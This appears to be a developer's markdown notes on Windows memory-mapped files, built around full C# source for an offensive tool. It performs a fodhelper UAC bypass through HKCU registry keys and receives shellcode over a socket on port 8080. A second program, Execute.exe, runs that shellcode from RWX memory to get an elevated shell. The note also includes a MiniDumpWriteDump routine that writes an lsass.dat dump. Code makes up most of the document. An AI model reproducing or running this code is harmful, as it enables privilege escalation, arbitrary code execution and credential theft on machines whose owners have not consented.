

# Memory in Windows

- Memory allocated with `GlobalAlloc` and `LocalAlloc` are private to process only and its not possible to share those memory with other process.
- Only way to share memory with other process is to use file-mapping objects i.e memory mapped files.
- Sinc we will be putting our shellcode into shared memory we need to have sequnecial access to memory hence we gotta use stream viwe for shared memory.


So finally I have got the memory mapping working. Apparently there are 2 things to take care of
- The main process that maps the memeory should not exit untill the another process has read the shared memory. So we have to use threads



So as seen in picture there was need to thread the method which creates a mapping region for memory and then wait for shellcode to come over socket and write shellcode to mapped memory region. Once that is done we signal thread 2 saying that hey mapping is done and now you can execute the UAC bypass payload which in turn execute `Execute.exe` which reads the mapped memory, gets the shellcode and executes that to get shell in elevated context. Meanwhile we have to make sure that as long as thread 2 runs thread1 should not exit since moment it exits the mapped memory would be freed.

Code for main Executable:
```c#
using System;
using System.Management;
using System.IO;
using System.IO.Pipes;
using System.Diagnostics;
using System.Net.Sockets;
using System.Net;   
using System.Runtime.InteropServices;
using Microsoft.Win32;
using System.IO.MemoryMappedFiles;
using System.Threading;

class Program
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, UInt64 dwSize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr OpenProcess(UInt64 dwDesiredAccess, bool bInheritHandle, UInt64 dwProcessId);

    [DllImport("dbghelp")]
    private static extern bool MiniDumpWriteDump(IntPtr hProcess, UInt64 ProcessId, SafeHandle hFile, UInt64 dumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

    private static UInt64 DELTE = 0x10000;
    private static UInt64 READ_CONTROL = 0x20000;
    private static UInt64 WRITE_DAC = 0x40000;
    private static UInt64 WRITE_OWNER = 0x80000;
    private static UInt64 SYNCHRONIZE = 0x1000000;
    private static UInt64 END = 0xFFF;
    private static UInt64 PROCESS_ALL_ACCESS = (DELTE | READ_CONTROL | WRITE_DAC | WRITE_OWNER | SYNCHRONIZE | END);

    //Perform UAC bypass using fodhelper
    static void ByPassUAC(string command)
    {
        //UAC Bypass using fodhelper.exe
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / v DelegateExecute / t REG_SZ
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / d "cmd.exe" / f

        RegistryKey myKey = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command");
        if (myKey == null)
        {
            RegistryKey tmpKey = Registry.CurrentUser.CreateSubKey(@"Software\\Classes\\ms-settings\\shell\\open\\command");
            tmpKey.Close();
        }
        myKey.Close();
        RegistryKey Key = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command",true);
        Key.SetValue("DelegateExecute", "REG_SZ");
        Key.SetValue("", command);
        return;
    }

    //Start a fodhelper.exe process
    static Process ActivateProcess(string name)
    {
        Process p = new Process();
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.FileName = name;
        p.Start();
        return p;
    }

    static void ExecuteInProcess(Process client)
    {
        using(AnonymousPipeServerStream pipeServer = new AnonymousPipeServerStream(PipeDirection.Out, HandleInheritability.Inheritable))
        {
            client.StartInfo.Arguments = pipeServer.GetClientHandleAsString();
            client.StartInfo.UseShellExecute = false;
            
            client.Start();

            pipeServer.DisposeLocalCopyOfClientHandle();
        }
    }

    static void ReverShell(MemoryMappedFile mmf,AutoResetEvent handle)
    {
        IPHostEntry ipHost = Dns.GetHostEntry(Dns.GetHostName());
        IPAddress ipAddress = ipHost.AddressList[1];
        IPEndPoint localEndpoint = new IPEndPoint(ipAddress, 8080);

        Socket s = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
        s.Bind(localEndpoint);
        s.Listen(5);

        // Accept incomming connection
        Socket handler = s.Accept();
        byte[] bytes = new byte[1024];
        byte[] shellcode;

        //Save the incomming bytes to a byte array to execute
        while (true)
        {
            int bytesRec = handler.Receive(bytes);
            shellcode = new byte[bytesRec];
            Buffer.BlockCopy(bytes, 0, shellcode, 0, bytesRec);
            break;
        }

        MemoryMappedViewStream stream = mmf.CreateViewStream(0,4+shellcode.Length-1);
        stream.Seek(0, SeekOrigin.Begin);
        byte[] length = BitConverter.GetBytes(shellcode.Length - 1);
        stream.Write(length,0,length.Length);
        stream.Write(shellcode, 0, shellcode.Length-1);
        handle.Set();
        while (true) ;
    }

    //Return the process id the process spawned by running fodhelper.exe i.e the cmd.exe running with elevated privs.
    // Refer : https://stackoverflow.com/questions/17922725/monitor-child-processes-of-a-process
    static IntPtr GetChildProcess(Process parentProcess)
    {
        int i = 0;
        ManagementObjectSearcher mo = new ManagementObjectSearcher(String.Format("Select * from Win32_Process Where ParentProcessID={0}", parentProcess.Id));
        foreach(ManagementObject m in mo.Get()){
            i = Convert.ToInt32(m["ProcessID"]);
        }
        if (i == 0)
        {
            System.Console.WriteLine("[!] Error getting the child process handle");
            return IntPtr.Zero;
        }
        else
        {
            IntPtr child = OpenProcess(PROCESS_ALL_ACCESS, false, (UInt64)i);
            return child;
        }
    }

    static void WriteMem(Process p)
    {
        FileStream fs = new FileStream("lsass.dat", FileMode.Create);

        bool status = MiniDumpWriteDump(p.Handle, (UInt64)p.Id, fs.SafeFileHandle, (UInt64)2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        if (status)
        {
            System.Console.WriteLine("Done!");
            fs.Close();
            System.Console.ReadLine();
        }
        else
        {
            System.Console.WriteLine("[!] Error dumping the process");
        }
        return;
    }

    static void MemoryMappingForIPC(AutoResetEvent handle)
    {
        MemoryMappedFile mmf = MemoryMappedFile.CreateNew("shellcode", 500, MemoryMappedFileAccess.ReadWrite);
        ReverShell(mmf,handle);

    }

    static void ExecuteUAC()
    {
        ByPassUAC("C:\\Users\\root\\source\\repos\\Execute\\Execute\\bin\\x64\\Debug\\Execute.exe");
        Process p = ActivateProcess("C:\\Windows\\System32\\fodhelper.exe");
    }

    static void Main(string[] args)
    {
        AutoResetEvent waitHandle = new AutoResetEvent(false);
        Thread t1 = new Thread(new ThreadStart(() => MemoryMappingForIPC(waitHandle)));
        t1.Start();
        Thread t2 = new Thread(new ThreadStart(ExecuteUAC));
        waitHandle.WaitOne();
        t2.Start();
//        WriteMem(p);
    }
}
```


Code for Execute.exe 
```c#
using System;
using System.IO.MemoryMappedFiles;
using System.Runtime.InteropServices;

class Program
{

    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(UInt64 lpAddress, UInt64 dWsize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt64 lpThreadAttributes, UInt64 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt64 dwCreationFlags, IntPtr lpThradId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt64 dwMilliSeconds);

    private static UInt64 MEM_COMMIT = 0x1000;
    private static UInt64 PAGE_EXECUTE_READWRITE = 0x40;

    public static void ExecuteShellcode(byte[] shellcode)
    {
        IntPtr address = VirtualAlloc(0, (UInt64)(shellcode.Length), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, address, shellcode.Length);
        IntPtr threadHandle = CreateThread(0, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
        _ = WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    }
    static void Main(string[] args)
    {

        MemoryMappedFile mmf = MemoryMappedFile.OpenExisting("shellcode");
        MemoryMappedViewStream stream = mmf.CreateViewStream();

        byte[] length = new byte[4];
        stream.Read(length, 0, 4);

        int l = BitConverter.ToInt32(length, 0);
        byte[] shellcode = new byte[l];
        stream.Read(shellcode, 0, l);
        ExecuteShellcode(shellcode);
    }
}
```

## Problem?

Now the mapping memory section works but when executing WaitForSingleObject it gives Access Denied error which means there is something wrong still present which needs to be checked. But anyways, I have got the memory mapping working.

## Structure of Mapped Memory

For those wondering how exactly am I copying shellcode over mapped memory, I first get the length of shellcode and convert the int into bytes and store them into first 4 bytes of shared memory. After that reset of shellcode is stored byte by byte. The reason being when Execute.exe reads the shared memory, it can know the size of shellcode by reading first 4 bytes of shared memory which can help declare byte array for storing shellcode.
